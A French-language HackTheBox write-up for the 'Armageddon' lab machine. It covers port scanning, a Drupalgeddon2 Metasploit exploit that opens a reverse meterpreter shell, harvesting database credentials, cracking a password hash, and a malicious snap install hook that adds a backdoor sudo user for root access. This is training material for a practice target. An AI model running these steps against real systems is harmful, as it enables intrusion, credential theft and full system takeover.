










<br/>

<p align="center">
 <h2 align="center">[NAME OF BOX]</h2>
</p>


</br>

<p align="left">
 <h3 align="left">Table of Contents</h4>
</p>
<hr size=1px>


<ol type=I>
      <li><a href="#box">Box</a></li>
      <li><a href="#profile">Profile</a></li>
      <li><a href="#Information Gathering">Information Gathering</a></li>
      <ol>
          <li><a href="#1.scan port">Scan Port</a></li>
          <li><a href="#2.web">Web</a></li>
      </ol>
      <li><a href="#exploit">Exploit</a></li>
	  <li><a href="#privilege escalation">Privilege Escalation</a></li>
      <ol>
          <li><a href="#1.user">User</a></li>
          <li><a href="#2.root">Root</a></li>
      </ol>


<p align="left">
 <h4 align="left">Box</h4>
</p>
<hr size=1px>

<a href="https://app.hackthebox.eu/machines/314" alt="Box">
</a>


<p align="left">
 <h4 align="left">Profile</h4>
</p>
<hr size=1px>

<a href="https://www.hackthebox.eu/home/users/profile/308632"></a>


<p align="left">
 <h4 align="left">Information Gathering</h4>
</p>
<hr size=1px>

Commençons par un scan nmap.

<p align= "left">
 <h6 align= "left"><U>1.Scan Port</U></h6>
</p>

> sudo nmap -sSV -sC -oN nmap/initial 10.10.10.233

- `-sV : Détection de version sur les services utilisé.`
- `-sS :  SYN Scan, scan plutôt furtif.`
- `-sC : Exécute une série de scripts sur les services trouvé.`
- `-oN : Sauvegarde l'output de namp dans un fichier.`

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 19:32 CEST
Nmap scan report for 10.10.10.233
Host is up (0.060s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.28 seconds0
```

On voit que les ports 22(ssh) et 80(http) sont ouverts, allons voir ce que donne le serveur web.


<p align= "left">
 <h6 align= "left"><U>2.Web</U></h6>
</p>

La page web affiche une page de connexion, énumérons les répertoires afin de voir si l'on peut trouver quelques choses d'intéressant.




> ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.233/FUZZ
>

```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.233/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

.gitignore              [Status: 200, Size: 174, Words: 15, Lines: 7]
cgi-bin/                [Status: 403, Size: 210, Words: 15, Lines: 9]
.htpasswd               [Status: 403, Size: 211, Words: 15, Lines: 9]
.htaccess               [Status: 403, Size: 211, Words: 15, Lines: 9]
.hta                    [Status: 403, Size: 206, Words: 15, Lines: 9]
includes                [Status: 301, Size: 237, Words: 14, Lines: 8]
index.php               [Status: 200, Size: 7440, Words: 808, Lines: 157]
misc                    [Status: 301, Size: 233, Words: 14, Lines: 8]
modules                 [Status: 301, Size: 236, Words: 14, Lines: 8]
profiles                [Status: 301, Size: 237, Words: 14, Lines: 8]
robots.txt              [Status: 200, Size: 2189, Words: 158, Lines: 91]
scripts                 [Status: 301, Size: 236, Words: 14, Lines: 8]
sites                   [Status: 301, Size: 234, Words: 14, Lines: 8]
themes                  [Status: 301, Size: 235, Words: 14, Lines: 8]
web.config              [Status: 200, Size: 2200, Words: 416, Lines: 47]
xmlrpc.php              [Status: 200, Size: 42, Words: 6, Lines: 1]
:: Progress: [4681/4681] :: Job [1/1] :: 537 req/sec :: Duration: [0:00:10] :: Errors: 0 ::

```

On voit qu'il y a un robots.txt, en général ce dernier est utilisé pour cacher certaines pages.

Regardons ce qu'il contient.

Dans ce repertoire, on peut constater que plusieurs fichiers sont cachés, notamment le `CHANGELOG.txt` qui peut contenir des informations importantes sur le service web utilisé.



Dans ce fichier, on apprend que Drupal est utilisé, nous avons aussi la version de ce dernier.



Regardons s'il existe une vulnérabilité sur cette version.

> searchsploit drupal 7.56



Plusieurs failles RCE existent, nous allons nous concentrer sur celle qui ne possède pas le tag `Authenticated`, car il nous faudrait un accès à l'utilisateur.

Donc nous allons utiliser l'exploit `Drupalgeddon2`.

On voit qu'il est possible de l'utiliser via metasploit, cela nous faciliterait là tache.


<p align="left">
 <h4 align="left">Exploit</h4>
</p>
<hr size=1px>


> sudo msfconsole

Recherchons la failles dessus.

> search Drupal



Dans notre cas, nous utiliserons `drupal_drupalgeddon2`.

Pour l'utiliser, nous pouvons utiliser la commande `use 0`.

> use 4


Regardons les prérequis pour utiliser cet exploit.

> options



Ils nous demandent de mettre une ip qui est dans le même réseau que la cible, ainsi que le port que nous allons ouvrir pour recevoir la connexion.


Dans mon cas, je dois modifier l'ip, car elle n'est pas dans le même réseau que la cible.

> set LHOST 10.10.14.16

Nous devons aussi renseigner l'ip de la cible.

> set RHOSTS 10.10.10.233

Donc nous allons lancer l'exploit sur la cible `10.10.10.233` et il ouvrir un meterpreter sur notre hôte en `10.10.14.16` sur le port `4444`.

Nous pouvons lancer l'exploit.

> exploit

```
[*] Started reverse TCP handler on 10.10.14.16:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Sending stage (39282 bytes) to 10.10.10.233
[*] Meterpreter session 1 opened (10.10.14.16:4444 -> 10.10.10.233:53528) at 2021-04-05 19:52:39 +0200

meterpreter > 
```

Nous voilà avec un meterpreter, utilisons la commande `shell` pour avoir le shell sur le système.

> shell

```
meterpreter > shell
Process 2366 created.
Channel 0 created.
whoami
apache
```

Nous voilà sur la machine cible avec l'utilisateur `apache`.

<p align="left">
 <h4 align="left">Privilege Escalation</h4>
</p>
<hr size=1px>


<p align= "left">
 <h6 align= "left"><U>1.User</U></h6>
</p>
En allant dans le dossier `/var/www/` où se trouve les fichiers du site web et que nous filtrons les fichiers contenant le mot `password` nous pourrons trouver quelques choses d'intéressant.

> cd /var/www/
> grep -iR password

```
[...]
html/sites/default/settings.php: *     'password' => 'password',
html/sites/default/settings.php:      'password' => 'CQHEy@9M*m23gBVj',
html/sites/default/settings.php: * by using the username and password variables. The proxy_user_agent variable
[...]
```

On remarque qu'un mot de passe est stocké dans le fichier `settings.php`.

Allons voir ce fichier de plus près.

En faisant un `cat` de ce fichier, on peut remarquer que le mot de passe concerne une base de données, nous récupérons en plus de cela le nom d'utilisateur pour se connecter.

> cat /html/sites/default/settings.php

```
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

Connectons-nous à la base de données mysql, puis regardons ce qu'elle possède.

> mysql -u drupaluser -p
>
> show databases;
>

```
Database
information_schema
drupal
mysql
performance_schema
```

Afficher les tables de la base de données `drupal`.

> show tables;

```
[...]
url_alias
users
users_roles
[...]
```

Affichons les données de la tables `users`.

> select * from users;



Nous avons maintenant en notre possession le nom de l'utilisateur `brucetherealadmin` ainsi que son mot de passe hashé.

Stockons le mot de passe dans un fichier.



Nous allons utiliser `john` afin de craquer le mot de passe, il devrait le trouver si le mot de passe se trouve dans la wordlist `rockyou.txt`.

> john mdp

```
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Will run 12 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
booboo           (?)
1g 0:00:00:00 DONE 2/3 (2021-04-05 20:09) 2.777g/s 466.6p/s 466.6c/s 466.6C/s 111111..cindy
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

John a trouvé le type du hash `Drupal7`, ainsi que le mot de passe `booboo`.

Connectons-nous via ssh sur l'utilisateur `brucetherealadmin`.

> ssh brucetherealadmin@10.10.10.233
>

```
[brucetherealadmin@armageddon ~]$ whoami
brucetherealadmin
```

Nous avons maintenant le flag `user.txt`.

> cat user.txt 

```
[brucetherealadmin@armageddon ~]$ cat user.txt 
XXXXXXXXXXXXXXXXXXXXXXXXXXX
```


<p align= "left">
 <h6 align= "left"><U>2.Root</U></h6>
</p>
En faisant un `sudo -l` on peut voir que cet utilisateur possède les droits root sur le binaire `snap install`.

> sudo -l

```
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY
    HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

Nous pouvons donc installer des paquets avec `snap`.

Essayons d'installer un paquet.

> sudo snap install python3

```
[brucetherealadmin@armageddon ~]$ sudo snap install python3
error: unable to contact snap store
```

On voit que nous n'avons pas accès à Internet, nous allons donc devoir utiliser notre machine hôte pour build des paquets `.snap` et les importer sur la machine cible.

Nous allons utiliser `snapcraft` pour build des paquets sur notre machine hôte, et nous utiliserons la faille `Dirty Cow version2`.

Installons snapcraft.

> snap install snapcraft

Maintenant, nous pouvons initialiser notre paquet.

```
snapcraft init
Created snap/snapcraft.yaml.
Go to https://docs.snapcraft.io/the-snapcraft-format/8337 for more information about the snapcraft.yaml format.
```

Il va nous falloir créer un dossier `hook` et un fichier `install` dans ce dernier, qui sera exécuter lors de l'installation du paquet, ce dernier contiendra les instructions pour créer un utilisateur en bash et lui donner les droits sudo.

> mkdir snap/hooks
> touch snap/hooks/install
> chmod a+x snap/hooks/install

Ouvrer le fichier `install` puis inséré le code suivant.

```bash
#!/bin/bash

useradd dirty_sock -m -p '$6$sWZcW1t25pfUdBuX$jWjEZQF2zFSfyGy9LbvG3vFzzHRjXfBYK0SOGfMD1sLyaS97AwnJUs7gDCY.fg19Ns3JwRdDhOcEmDpBVlF9m.' -s /bin/bash
usermod -aG sudo dirty_sock
echo "dirty_sock    ALL=(ALL:ALL) ALL" >> /etc/sudoers
```

Maintenant, nous allons éditer le fichier `snapcraft.yaml` avec les informations suivantes.

```yaml
name: dirty-sock
base: core
version: '0.1' 
summary: Empty snap, used for exploit
description: |
    See https://github.com/initstring/dirty_sock

grade: devel
confinement: devmode

parts:
  my-part:
    plugin: nil
```

Nous devons maintenant `build` notre paquet avec la commande `snapcraft`

> snapcraft

Nous voilà maintenant avec un fichier `.snap` que nous pouvons exécuter sur la machine cible.

> ls -l

```
ls -ll
total 16K
-rw-r--r-- 1 ethost ethost 4,0K  4 avril 19:18 dirty-sock_0.1_amd64.snap

```

Nous allons upload le fichier sur la machine cible avec la commande `scp`.

> scp dirty-sock_0.1_amd64.snap brucetherealadmin@10.10.10.233:.



Si nous voulons exécuter le .snap il va nous falloir rajouter quelques options sinon nous aurons plusieurs erreurs.

> sudo snap install dirty-sock_0.1_amd64.snap 

```
[brucetherealadmin@armageddon ~]$ sudo snap install dirty-sock_0.1_amd64.snap 
error: cannot find signatures with metadata for snap "dirty-sock_0.1_amd64.snap"
```

Nous allons d'abord utiliser l'option `dangerous` pour forcer l'installation de ce fichier, ainsi que l'option `--devmode`, car notre paquet utilise ce mode.

> sudo snap install dirty-sock_0.1_amd64.snap --dangerous --devmode

```
[brucetherealadmin@armageddon ~]$ sudo snap install dirty-sock_0.1_amd64.snap --dangerous --devmode
dirty-sock 0.1 installed
```

Si on regarde les utilisateurs système, on peut voir un nouvel utilisateur `dirty_sock`.

> cat /etc/passwd

```
[brucetherealadmin@armageddon ~]$ cat /etc/passwd
[...]
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
dirty_sock:x:1001:1001::/home/dirty_sock:/bin/bash
```

Nous pouvons maintenant nous y connecter avec le mot de passe `dirty_sock`.

> su dirty_sock

```
[brucetherealadmin@armageddon ~]$ su dirty_sock
```

> sudo -l

```
[dirty_sock@armageddon brucetherealadmin]$ sudo -l

User dirty_sock may run the following commands on armageddon:
    (ALL : ALL) ALL
```

> sudo su

```
[dirty_sock@armageddon ~]$ sudo su
[root@armageddon ~]# 
```

Nous voilà maintenant avec le root.

> cat root.txt

```
[root@armageddon ~]# cat root.txt 
XXXXXXXXXXXXXXXXXXXXXXXXXX
```


Cela conclut donc la box <u>Armageddon</u>  sur la plateforme <u>HackTheBox</u>
<u>Ethost.</u>